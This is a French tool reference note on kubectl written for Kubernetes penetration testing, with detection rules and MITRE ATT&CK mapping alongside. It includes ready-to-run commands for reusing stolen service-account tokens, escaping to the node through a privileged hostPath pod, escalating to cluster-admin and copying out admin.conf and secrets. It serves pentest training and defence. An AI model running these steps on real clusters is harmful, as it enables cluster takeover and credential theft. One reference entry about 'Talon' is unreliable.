


# 🛠️ kubectl — Le couteau suisse Kubernetes

> [!info] **En 1 phrase**
> La CLI de contrôle de Kubernetes : une fois un kubeconfig en main, elle te donne les clés du cluster pour énumérer, pivoter et exfiltrer.

---

## 🧾 Overview

| Champ | Valeur |
|---|---|
| Nom complet | kubectl |
| Description | CLI officielle de Kubernetes qui pilote l'API server (REST, port 6443) : get/describe/create/exec pour énumérer, escalader et exfiltrer dans un cluster |
| Catégorie | ☁️ Cloud & Containers |
| Sous-catégorie | Kubernetes / Orchestration / Post-exploitation containers |
| Type d'outil | CLI |
| Licence | Apache-2.0 |
| Open source / propriétaire | Open source |
| Langage(s) de programmation | Go |
| Développeur / organisation | Kubernetes (CNCF) |
| Projet officiel | https://kubernetes.io/ |
| Dépôt officiel | https://github.com/kubernetes/kubernetes |
| Documentation officielle | https://kubernetes.io/docs/reference/kubectl/ |
| Date de création | 2014 |
| État du projet | actif |
| Dernière version connue | v1.36.3 |
| Systèmes compatibles | Linux, Windows, macOS |

> [!note] Pour vérifier / compléter
> Version vérifiée sur https://github.com/kubernetes/kubernetes/releases (v1.36.3). kubectl suit la cadence de release Kubernetes (environ 3 versions par an) ; la règle de compatibilité autorise kubectl à être au plus une version mineure au-dessus de l'API server.

---

## 🎯 Concept

kubectl est la CLI officielle qui parle à l'**API server** de Kubernetes (port 6443) via des requêtes REST, avec un **kubeconfig** décrivant cluster, contexte et identité. En pentest Kubernetes, c'est l'outil de base dès qu'un accès est obtenu : kubeconfig volé (CI, poste d'admin, `admin.conf` du nœud), **token de service account** lu depuis un pod compromis, ou secret leaké. kubectl permet de : **énumérer** les namespaces, ressources, secrets et permissions RBAC ; **escalader** en créant des pods privilégiés, des rolebindings ou des contrôleurs ; **pivoter** via `exec`/`port-forward` ; et **exfiltrer** des données depuis un pod ou les volumes montés.

La clé du pentest K8s n'est pas kubectl lui-même mais ce qu'il révèle : **RBAC mal configuré**, secrets de tokens, service accounts montés automatiquement dans les pods, contrôles d'admission faibles (pod privilégié, hostPath), clusters accessibles sans authentification. Chaque commande est une requête API : les réponses (codes 200/403) donnent immédiatement les permissions réelles du principal courant, ce qui rend l'énumération très rapide et très verbeuse dans les audit logs du cluster.



---

## 🧠 Concepts fondamentaux

| Concept | Explication |
|---|---|
| Kubeconfig | Fichier YAML (`~/.kube/config`) contenant clusters, contexts, users (certificats, tokens, plugins exec) ; `--kubeconfig` permet d'en utiliser un autre |
| API server | Composant central de Kubernetes exposant l'API REST (port 6443) ; chaque commande kubectl est une requête HTTP authentifiée |
| Service Account (SA) | Identité d'un pod ; son token est monté dans `/var/run/secrets/kubernetes.io/serviceaccount/token` (sauf `automountServiceAccountToken: false`) |
| RBAC | Contrôle d'accès : Roles/ClusterRoles (permissions) et RoleBindings/ClusterRoleBindings (liaison sujet → rôle) |
| Namespace | Périmètre logique de ressources ; `-A`/`--all-namespaces` force le balayage global |
| Ressource | Objet K8s : pods, secrets, services, deployments, configmaps… chacun interrogeable via `get/describe` |
| Impersonation (`--as`) | Se faire passer pour un autre user/SA pour tester ses permissions sans changer de credentials |
| Admission controller | Étape de validation des requêtes (Pod Security, Gatekeeper) : peut bloquer les pods privilégiés |
| Audit logs | Journal des requêtes API server (`--audit-log-path`) : chaque commande kubectl y laisse une trace |

---

## 🛠️ Installation

kubectl se télécharge en binaire unique depuis `dl.k8s.io`, via les gestionnaires de paquets, ou Docker.

### Debian / Ubuntu / Kali Linux

```bash
curl -LO "https://dl.k8s.io/release/$(curl -L -s https://dl.k8s.io/release/stable.txt)/bin/linux/amd64/kubectl"
chmod +x kubectl
sudo mv kubectl /usr/local/bin/
kubectl version --client
```

### Fedora / RHEL

```bash
cat <<'EOF' | sudo tee /etc/yum.repos.d/kubernetes.repo
[kubernetes]
name=Kubernetes
baseurl=https://pkgs.k8s.io/core:/stable:/v1.36/rpm/
enabled=1
gpgcheck=1
gpgkey=https://pkgs.k8s.io/core:/stable:/v1.36/rpm/repodata/repomd.xml.key
EOF
sudo dnf install -y kubectl
```

### macOS

```bash
brew install kubectl
# ou kubectl via le binaire darwin/arm64
```

### Windows

```powershell
# PowerShell — binaire natif ou winget
winget install Kubernetes.kubectl
# alternative : curl.exe -LO "https://dl.k8s.io/release/v1.36.3/bin/windows/amd64/kubectl.exe"
```

### Docker

```bash
# kubectl dans un conteneur (image bitnami)
docker run --rm -v "$HOME/.kube:/root/.kube" bitnami/kubectl:latest get nodes
```

> [!warning] ⚠️ Prérequis & problèmes potentiels
> - kubectl requiert un kubeconfig valide (`~/.kube/config`) ou un accès réseau à l'API server ; `kubectl config current-context` montre le contexte actif.
> - Version de kubectl au plus 1 mineure au-dessus de l'API server (sinon `version mismatch`).
> - En pentest, `--insecure-skip-tls-verify=true` contourne la vérification TLS du token, mais un admission controller/proxy peut bloquer la requête.

---

## ⚙️ Configuration

kubectl se configure via le **kubeconfig** (contextes, users) et des flags ponctuels. Il n'y a pas de fichier de config global autre que le kubeconfig.

| Paramètre | Rôle | Valeur possible | Impact | Exemple |
|---|---|---|---|---|
| `--kubeconfig <fichier>` | Kubeconfig à utiliser | chemin | Change cluster/user/context | `--kubeconfig ./admin.conf` |
| `--context <nom>` | Contexte actif | nom | Sélectionne cluster+user | `--context prod` |
| `-n <namespace>` | Namespace cible | nom | Restreint au namespace | `-n kube-system` |
| `-A` / `--all-namespaces` | Tous les namespaces | drapeau | Balayage global | `kubectl get secrets -A` |
| `--token <token>` | Token brut d'authentification | chaîne | Auth directe sans kubeconfig | `--token $SA_TOKEN` |
| `--as <user>` | Impersonation | user/SA | Teste les permissions d'un tiers | `--as system:serviceaccount:kube-system:default` |
| `--insecure-skip-tls-verify=true` | Désactive la vérification TLS | drapeau | Contourne les certs (usage offensif) | `--insecure-skip-tls-verify=true` |
| `-o wide\|yaml\|json` | Format de sortie | format | Sortie exploitable | `-o json` |
| `--server <url>` | API server cible | URL | Connexion directe | `--server https://10.10.20.15:6443` |

---

## 🏗️ Architecture interne

kubectl est un binaire Go qui expose des **commandes verbe + ressource** (`kubectl <verbe> <ressource> [flags]`), communiquant avec l'API server en REST/JSON :

- **Client REST** : chaque commande construit une requête HTTP vers `https://<server>:6443/api/...` ou `/apis/...`, authentifiée par le mécanisme du contexte (certificat client, bearer token, exec plugin).
- **Découverte** : `kubectl` interroge l'API de découverte (`/api`, `/apis`) pour connaître les groupes de ressources disponibles, d'où la richesse de `kubectl api-resources`.
- **Sorties** : le client gère les formats `wide`, `yaml`, `json`, `name`, `custom-columns` ; `-o json` permet un parsing avec jq.
- **`auth can-i`** : envoie une requête d'évaluation `SelfSubjectAccessReview` au API server : la réponse (allowed/denied) reflète les permissions réelles — la base de l'énumération RBAC offensive.
- **Plugin system (krew)** : kubectl peut être étendu via des plugins (krew), fréquemment utilisés en pentest (e.g. `who-can`, `whoami`).
- **Proxying** : `kubectl proxy` expose l'API server localement ; `kubectl port-forward` crée un tunnel vers un service/pod.



---

## ⌨️ Commandes

### Commandes principales

La syntaxe générale est `kubectl <verbe> <ressource> [flags]`.

| Commande | Objectif | Résultat attendu |
|---|---|---|
| `kubectl auth whoami` | Identité du principal courant | user/SA/groups effectifs |
| `kubectl cluster-info` | Informations du cluster (endpoints) | URL API server et services |
| `kubectl get namespaces` | Liste des namespaces | Inventaire des namespaces |
| `kubectl get nodes -o wide` | Nœuds et leurs adresses | IP/OS/version des nœuds |
| `kubectl get pods -A -o wide` | Tous les pods | Pods, nodes, IP |
| `kubectl get secrets -A` | Tous les secrets | Noms/namespaces des secrets |
| `kubectl get clusterrolebinding,rolebinding -A` | Liaisons RBAC | Qui est lié à quoi |
| `kubectl auth can-i --list -A` | Permissions autorisées | Liste verbe → ressource |
| `kubectl exec -it <pod> -n <ns> -- /bin/sh` | Shell dans un pod | Accès au conteneur |
| `kubectl run <name> --image=busybox --rm -it -- /bin/sh` | Pod éphémère interactif | Pod de debug |
| `kubectl cp <ns>/<pod>:<chemin> <local>` | Copier des fichiers | Exfiltration pod → local |
| `kubectl describe <ressource>` | Détails d'une ressource | Spec et events |

### Commandes avancées

```bash
# Liste exhaustive des permissions du token courant
kubectl --token $SA_TOKEN auth can-i --list -A

# Voir le contenu brut d'un secret
kubectl -n kube-system get secret -o json | jq -r '.items[].data | keys[]'

# Test d'impersonation d'un service account
kubectl --as system:serviceaccount:default:default auth can-i list secrets

# Port-forward vers un service interne
kubectl port-forward -n default svc/example-service 8080:80
```

---

## 🎚️ Options et flags

| Option | Description | Exemple | Niveau |
|---|---|---|---|
| `-n <namespace>` | Namespace cible | `-n kube-system` | Basic |
| `-A` / `--all-namespaces` | Tous les namespaces | `-A` | Basic |
| `-o wide` | Sortie enrichie (IP, nodes) | `get pods -A -o wide` | Basic |
| `-o yaml` / `-o json` | Sortie structurée | `get secret -o yaml` | Basic |
| `-it` | Mode interactif (stdin + tty) | `exec -it <pod> -- /bin/sh` | Basic |
| `--kubeconfig <fichier>` | Kubeconfig spécifique | `--kubeconfig ./admin.conf` | Intermediate |
| `--token <token>` | Auth par token brut | `--token $SA_TOKEN` | Intermediate |
| `--as <user>` | Impersonation | `--as system:serviceaccount:kube-system:default` | Intermediate |
| `--server <url>` | API server direct | `--server https://10.10.20.15:6443` | Advanced |
| `--insecure-skip-tls-verify=true` | Pas de vérification TLS | `--insecure-skip-tls-verify=true` | Advanced |
| `--field-selector` | Filtre par champ | `--field-selector spec.nodeName=node1` | Expert |
| `--v=6` | Logs verbeux client (requêtes) | `--v=6` | Expert |

> [!tip] Options les plus utiles au quotidien
> `auth can-i --list -A` (permissions réelles), `-A` (balayage global), `-o json` (parsing), `--token` (auth avec un SA volé), `-it` (shell interactif).

---

## 🧪 Exemples pratiques

### Beginner

```bash
# Valider l'accès et l'identité
kubectl auth whoami
kubectl cluster-info

# Énumérer les ressources de base
kubectl get namespaces
kubectl get pods -A -o wide
kubectl get nodes -o wide
```

Résultat attendu : liste des ressources accessibles. Erreur fréquente : `The connection to the server localhost:8080 was refused` si le kubeconfig est absent/mal configuré.

### Intermediate

```bash
# Explorer les permissions et les secrets
kubectl auth can-i --list -A
kubectl get secrets -A -o json | jq -r '.items[].metadata.name'

# Ouvrir un shell dans un pod existant
kubectl exec -it <pod> -n <namespace> -- /bin/sh
```

### Advanced

```bash
# Utiliser un token de service account volé
SA_TOKEN=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token)
kubectl --token=$SA_TOKEN --insecure-skip-tls-verify=true \
  auth can-i --list -A

# Vérifier qui peut faire quoi via impersonation
kubectl --as system:serviceaccount:kube-system:default \
  auth can-i create pods
```

### Expert

```bash
# Créer un pod privilégié avec hostPID et hostPath (si pods/create est permis)
kubectl run hostfs --image=busybox --rm -it \
  --overrides='{"spec":{"hostPID":true,"volumes":[{"name":"host","hostPath":{"path":"/"}}],"containers":[{"name":"c","image":"busybox","stdin":true,"tty":true,"volumeMounts":[{"mountPath":"/host","name":"host"}]}]}}' \
  -- /bin/sh
# Dans le pod : chroot vers le filesystem du nœud
chroot /host /bin/sh
cat /host/var/lib/kubelet/config.yaml
```

---

## 🧪 Workflow complet (scénario pas à pas)

1. **Obtenir un accès** — kubeconfig volé, token SA lu depuis un pod compromis, ou API server exposé sans auth.
   ```bash
   cat /var/run/secrets/kubernetes.io/serviceaccount/token
   kubectl --token=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token) \
     --insecure-skip-tls-verify=true auth whoami
   ```
2. **Cartographier les permissions** — la réponse à `can-i --list` définit le périmètre exploitable.
   ```bash
   kubectl auth can-i --list -A
   ```
3. **Énumérer les ressources sensibles** — secrets, configmaps, rolebindings.
   ```bash
   kubectl get secrets -A -o json | jq -r '.items[] | "\(.metadata.namespace)/\(.metadata.name)"'
   kubectl get clusterrolebinding -A -o wide
   ```
4. **Exploiter les permissions** — selon les droits : créer un pod privilégié, un rolebinding, lire un secret.
   ```bash
   kubectl run pwn --image=busybox --privileged --rm -it --restart=Never -- /bin/sh
   ```
5. **Exfiltrer** — copier `admin.conf` du nœud, les volumes montés, ou les secrets du cluster.
   ```bash
   kubectl cp kube-system/<pod>:/etc/kubernetes/admin.conf ./admin.conf
   ```

---

## 🎬 Scénarios avancés

### Scénario 1 : Escalade RBAC via une RoleBinding modifiable

```bash
# Si le token peut créer des rolebindings dans son namespace
kubectl --token=$TOKEN create rolebinding pwn-admin \
  --clusterrole=cluster-admin \
  --serviceaccount=<namespace>:<serviceaccount> -n <namespace>

# Re-vérifier les permissions désormais élargies
kubectl --token=$TOKEN auth can-i get secrets -A
```

La liaison d'un `cluster-admin` à son propre SA transforme un accès limité en contrôle total du cluster.

### Scénario 2 : Évasion de conteneur vers le nœud (hostPath + hostPID)

```bash
kubectl run hostfs --image=busybox --rm -it \
  --overrides='{"spec":{"hostPID":true,"volumes":[{"name":"host","hostPath":{"path":"/"}}],"containers":[{"name":"c","image":"busybox","stdin":true,"tty":true,"volumeMounts":[{"mountPath":"/host","name":"host"}]}]}}' \
  -- /bin/sh

# Dans le pod : accès au filesystem du nœud
chroot /host /bin/sh
cat /host/etc/kubernetes/pki/ca.crt
```

---

## 🛡️ Cybersecurity use cases

| Phase | Utilisation |
|---|---|
| Reconnaissance | `cluster-info`, `get nodes/namespaces/pods` : cartographie du cluster |
| Énumération | `auth can-i --list`, `get secrets/rolebindings` : permissions et secrets |
| Vulnérabilité | Détection de RBAC permissifs, secrets en clair, SA montés |
| Exploitation | Création de pods privilégiés, rolebindings, exec |
| Post-exploitation | Pivot cluster → nœud, récupération de kubeconfig, persistance |
| Exfiltration | `cp`, `exec`, lecture des volumes/CM |

---

## 🎯 MITRE ATT&CK

| Tactique | Technique / Sub-technique | ID | Raison | Détection | Mitigation |
|---|---|---|---|---|---|
| Initial Access / Persistence | Valid Accounts : Default Accounts | T1078.001 | Exploitation des service accounts et kubeconfig | Audit logs API server, Falco | SA à moindre privilège, désactiver l'automount |
| Execution | Container Administration Command | T1609 | `kubectl exec`/`run` exécutent dans les pods | Audit logs, Falco exec dans les pods | RBAC restrictif sur pods/exec, Pod Security |
| Execution | Command and Scripting Interpreter : Unix Shell | T1059.004 | Shell interactif dans un pod | Falco, audit exec | Containers sans shell, seccomp |
| Discovery | Container and Resource Discovery | T1613 | `get` de pods, secrets, namespaces | Audit logs (list/get répétés) | RBAC minimal, audit logging |
| Discovery | Permission Groups Discovery : Cloud Groups | T1069.003 | `auth can-i`, lecture des roles/rolebindings | Audit logs SelfSubjectAccessReview | RBAC le plus granulaire |
| Discovery | Account Discovery | T1087.001 | Énumération des SA et utilisateurs | Audit logs get serviceaccounts | Moindre privilège |
| Credential Access | Unsecured Credentials : Files | T1552.001 | Lecture des kubeconfigs et secrets | Falco lecture de fichiers sensibles | Secrets externes (Vault), encryption |
| Privilege Escalation / Persistence | Valid Accounts | T1078 | Exploitation de tokens SA volés | Audit logs d'auth anormaux | Rotation, audit RBAC |

> [!note] Ne renseigner que si l'association est réellement pertinente.
> kubectl est le vecteur d'exécution de nombreuses techniques containers ; les techniques ci-dessus couvrent les usages offensifs documentés.

---

## 🛡️ Defensive Security

### Signes observables

| Indicateur | Détail |
|---|---|
| Requêtes API server depuis une IP de pod inattendue | Énumération : audit logs du kube-apiserver, Falco |
| `kubectl exec` répétés sur de nombreux pods | Alerting sur les exec, RBAC restrictif sur `pods/exec` |
| Création de rolebindings/clusterrolebindings hors processus | Détection sur les événements RBAC, webhooks d'admission |
| Pods privilégiés, `hostPath`, `hostPID` montés | Pod Security Admission (baseline/restricted), OPA/Gatekeeper |
| Requêtes `SelfSubjectAccessReview` en rafale | Signature d'énumération `auth can-i` |
| Connexions à l'API server depuis des IP hors plage | NetworkPolicy/ACL sur le port 6443 |

### Règles de détection (Sigma / Suricata / Snort / YARA)

```yaml
# Sigma — Kubernetes : création de pod privilégié (escalade container)
title: K8s Privileged Pod Creation
id: 0b0b2f90-0000-4a9a-8c5f-000000000041
status: experimental
logsource:
    product: kubernetes
    service: apiserver
detection:
    selection:
        verb: 'create'
        objectRef.resource: 'pods'
    filter_priv:
        responseStatus.code: 201
        requestObject.spec.hostPID: true
    condition: selection and filter_priv
falsepositives:
    - Outils de debug légitimes (rare en production)
level: high
```

> [!note] À vérifier
> Exemple pédagogique : adapter les champs à la structure réelle de vos audit logs K8s ; l'identifiant Sigma est fictif et à régénérer si publié.

---

## 🤖 Automatisation

```bash
# Bash — énumération automatique des permissions et secrets
for ns in $(kubectl get namespaces -o name); do
  kubectl get secrets -n "$ns" -o json 2>/dev/null | \
    jq -r --arg ns "$ns" '.items[] | "\($ns)/\(.metadata.name)"'
done
```

---

## 📤 Output et parsing

kubectl sort en `wide`, `yaml`, `json`, `name`, ou `custom-columns`. Le JSON est la meilleure forme pour le parsing automatisé.

```bash
# Extraire les tokens/base64 des secrets
kubectl get secrets -A -o json | \
  jq -r '.items[] | "\(.metadata.namespace)/\(.metadata.name): \(.data.token // .data | keys | join(","))"'

# Lister les pods avec leurs nodes et IP
kubectl get pods -A -o json | \
  jq -r '.items[] | "\(.metadata.namespace)/\(.metadata.name) \(.status.podIP) \(.spec.nodeName)"'
```

---

## 🔗 Intégrations

- [[Tools|🧰 Outils]] global
- [[Outil - kube-hunter|kube-hunter]] — scan de vulnérabilités du cluster avant l'accès
- [[Outil - kube-bench|kube-bench]] — benchmark CIS du cluster (défense et posture)
- [[Outil - peirates|peirates]] — post-exploitation Kubernetes automatisée (pivot, escape)
- [[Outil - cloudfox|cloudfox]] — cartographie des clusters EKS et kubeconfig depuis AWS
- krew — gestionnaire de plugins (dont `who-can`, `kubectl whoami`)
- Falco / OPA Gatekeeper — détection et admission (côté défense)

```text
cloudfox (EKS) → kubeconfig volé → kubectl (enum/esc) → peirates (post-exploitation) → kube-bench (posture)
```

---

## 🔄 Alternatives

| Outil | Avantages | Inconvénients | Cas d'usage |
|---|---|---|---|
| peirates | Post-exploitation automatisée (escape, pivot) | Moins de finesse d'énumération | Exploitation avancée |
| kube-hunter | Scan passif des vulnérabilités K8s | Pas de contrôle fin | Reconnaissance |
| kube-bench | Benchmark CIS du cluster | Pas d'exploitation | Audit de posture |
| k9s | UI terminale, navigation rapide | Moins scriptable | Exploration visuelle |
| kubectl vs. API directe (curl) | kubectl gère auth/sorties | Dépend du client | Usage offensif standard |

> **Quand utiliser l'API directe (curl) plutôt que kubectl ?** Quand kubectl n'est pas disponible (poste contraint, binaire bloqué) : des requêtes `curl -k -H "Authorization: Bearer $TOKEN" https://API:6443/api/v1/secrets` reproduisent l'essentiel sans client.

---

## ⚡ Performance

- **Réseau** : chaque commande est une requête HTTP vers l'API server (latence réseau dominante) ; `--v=6` affiche les requêtes exactes.
- **Énumération** : `get -A -o json` est une requête unique par ressource — très rapide même sur de gros clusters (sauf pagination de gros résultats).
- **`auth can-i --list`** : envoie peu de requêtes (SelfSubjectAccessReview agrégée) et répond en quelques centaines de ms.
- **Le goulot d'étranglement offensif** n'est pas kubectl mais l'API server : un cluster énuméré en rafale génère beaucoup d'audit logs → ajuster la cadence pour rester discret.

---

## 🛠️ Troubleshooting

### Common problems

#### Problème : « The connection to the server localhost:8080 was refused »

- **Cause** : aucun kubeconfig défini ou `KUBECONFIG` non positionné ; kubectl tente localhost par défaut.
- **Solution** : exporter `KUBECONFIG=./admin.conf` ou utiliser `--kubeconfig` ; vérifier `kubectl config current-context`.
- **Vérification** : `kubectl auth whoami` répond.

#### Problème : erreur de version « mismatch » entre kubectl et API server

- **Cause** : kubectl trop ancien/récent par rapport au serveur.
- **Solution** : aligner la version (au plus 1 mineure d'écart) ; `kubectl version --client` vs `kubectl version -o json`.
- **Vérification** : `kubectl get namespaces` réussit.

#### Problème : `forbidden` sur toutes les commandes

- **Cause** : permissions insuffisantes du token/SA courant, ou impersonation refusée.
- **Solution** : valider avec `auth can-i --list -A` ; chercher un autre accès (kubeconfig, SA différent) ; tenter l'impersonation d'un SA privilégié.
- **Vérification** : `auth can-i get secrets -A` répond `yes`.

---

## 🔐 Sécurité de l'outil

- **Cadre légal** : kubectl ne « détecte » rien, il exécute les permissions du token ; n'utiliser que sur des clusters autorisés (pentest signé, lab).
- **Traçabilité** : chaque commande est journalisée dans les audit logs de l'API server — l'énumération offensive est détectable a posteriori.
- **Kubeconfig volés** : les `admin.conf`/`config` donnent accès admin : les protéger (chmod 600), ne jamais les committer.
- **`--insecure-skip-tls-verify`** : contournement utile mais bruyant côté MITM/proxy ; à limiter.
- **Pod privilégié** : la création d'un pod hostPath/hostPID donne accès au nœud → risque majeur de compromission du cluster complet.

---

## ⚠️ Limitations

- **Permissions = capacité** : sans droits RBAC, kubectl ne fait rien ; c'est le principe de l'outil, pas un bug.
- **Pas de scan de vulnérabilités** : kubectl n'identifie pas les failles (CVE) ; combiner avec kube-hunter/kube-bench.
- **`kubectl run`** : crée un Deployment par défaut en versions récentes (utiliser `--restart=Never` ou un manifest pod).
- **Pas de persistance** : à lui seul, kubectl ne garantit pas un accès durable (le pod privilégié est éphémère).
- **Requiert un accès réseau** à l'API server : un réseau segmenté bloque kubectl (mais pas les autres chemins).

---

## 📋 Cheatsheet

```bash
# Accès & identité
kubectl auth whoami
kubectl cluster-info
kubectl config current-context

# Énumération
kubectl get namespaces
kubectl get nodes -o wide
kubectl get pods -A -o wide
kubectl get secrets -A -o json | jq -r '.items[].metadata.name'
kubectl get clusterrolebinding,rolebinding -A -o wide

# Permissions
kubectl auth can-i --list -A
kubectl auth can-i get secrets -A

# Exécution / pivot
kubectl exec -it <pod> -n <ns> -- /bin/sh
kubectl run pwn --image=busybox --privileged --rm -it --restart=Never -- /bin/sh
kubectl cp <ns>/<pod>:/etc/kubernetes/admin.conf ./admin.conf
kubectl port-forward svc/example-service 8080:80

# Escalade RBAC
kubectl create rolebinding pwn-admin --clusterrole=cluster-admin \
  --serviceaccount=<ns>:<sa> -n <ns>
```

---

## ⚡ Quick reference

| | |
|---|---|
| **À quoi sert-il ?** | Piloter l'API Kubernetes : énumérer, escalader, pivoter et exfiltrer depuis un kubeconfig ou un token SA |
| **Quand l'utiliser ?** | Dès qu'un accès au cluster est obtenu (post-compromission, kubeconfig volé) |
| **Commande principale** | `kubectl auth can-i --list -A` puis `kubectl get secrets -A` |
| **Alternative principale** | curl direct vers l'API server ; peirates pour la post-exploitation |
| **Concepts importants** | Kubeconfig, RBAC, Service Account, namespaces, impersonation |
| **Liens associés** | [[Outil - kube-hunter]] · [[Outil - peirates]] · [[Outil - kube-bench]] |

---

## 🔍 Détection & Défense

| Signe | Défense |
|---|---|
| Requêtes API depuis une IP de pod inattendue | Audit logs + Falco, NetworkPolicy sur le port 6443 |
| `kubectl exec` massifs | Alerting sur `pods/exec`, RBAC restrictif |
| Création de rolebindings hors processus | Webhooks d'admission, surveillance des événements RBAC |
| Pods privilégiés / hostPath | Pod Security Admission (baseline/restricted) |
| Rafales de `SelfSubjectAccessReview` | Signature d'énumération `auth can-i` |

---

## ⚠️ Tips & Pièges

> [!tip] 💡 **Tips**
> - `kubectl auth can-i --list -A` est LE premier réflexe : il liste toutes les actions autorisées pour le token courant en une commande.
> - Le token SA est monté par défaut dans `/var/run/secrets/kubernetes.io/serviceaccount/` : check-le sur tout pod compromis.
> - Teste les permissions avec `--as=system:serviceaccount:<ns>:<sa>` pour valider sans créer de pod.
> - Utilise `-o json` systématiquement pour parser les résultats avec jq.
> - `kubectl cp` permet d'exfiltrer des fichiers du pod vers ton poste (kubeconfig, secrets).

> [!warning] ⚠️ **Pièges**
> - Sans permissions, kubectl ne fait rien : `auth can-i` te dit immédiatement ce qui est possible.
> - `kubectl run` crée un Deployment par défaut en versions récentes : utilise `--restart=Never` pour un pod éphémère.
> - `--insecure-skip-tls-verify` est bruyant et peut être bloqué par un admission controller.
> - Chaque commande laisse une trace dans les audit logs : énumération discrète = cadence raisonnable.
> - Un pod privilégié donne accès au nœud : c'est puissant mais très détectable et lourd de conséquences.

---

## 📚 References

### Official

- Documentation kubectl : https://kubernetes.io/docs/reference/kubectl/
- Cheatsheet officiel : https://kubernetes.io/docs/reference/kubectl/cheatsheet/
- Dépôt officiel : https://github.com/kubernetes/kubernetes
- Téléchargements : https://kubernetes.io/releases/download/
- Liste des versions : https://kubernetes.io/releases/

### Security references

- MITRE ATT&CK T1613 — Container and Resource Discovery : https://attack.mitre.org/techniques/T1613/
- MITRE ATT&CK T1610 — Deploy Container : https://attack.mitre.org/techniques/T1610/
- MITRE ATT&CK T1609 — Container Administration Command : https://attack.mitre.org/techniques/T1609/
- MITRE ATT&CK T1552.001 — Unsecured Credentials (Files) : https://attack.mitre.org/techniques/T1552/001/
- Kubernetes Hardening Guide (NSA/CISA) : https://www.cisa.gov/resources-tools/resources/kubernetes-hardening-guidance
- CIS Kubernetes Benchmark : https://www.cisecurity.org/benchmark/kubernetes

### Community

- krew (plugin manager) : https://krew.sigs.k8s.io/
- HackTricks — Kubernetes pentesting : https://book.hacktricks.wiki/en/network-services-pentesting/kubernetes-pentesting.html
- Talon (partenaire MITRE de Kubernetes) : https://www.mitre.org/

---

➡️ **Liens :** [[Tools|🧰 Outils]] · [[Outil - kube-hunter|kube-hunter]] · [[Outil - peirates|peirates]] · [[Outil - kube-bench|kube-bench]]
